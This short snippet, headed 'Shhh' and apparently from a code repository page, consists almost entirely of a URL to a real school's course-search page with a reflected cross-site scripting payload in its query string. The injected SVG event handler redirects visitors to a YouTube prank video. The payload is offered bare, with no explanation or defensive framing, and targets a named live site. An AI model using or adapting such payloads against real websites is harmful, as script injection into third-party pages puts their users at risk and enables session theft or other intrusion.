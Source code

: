 # Shhh
https://rotorualakes.schoolpoint.co.nz/courses/search?s=<svg/onload='+/"/+/onmouseover= location.replace('https://youtu.be/dQw4w9WgXcQ?autoplay=1');>
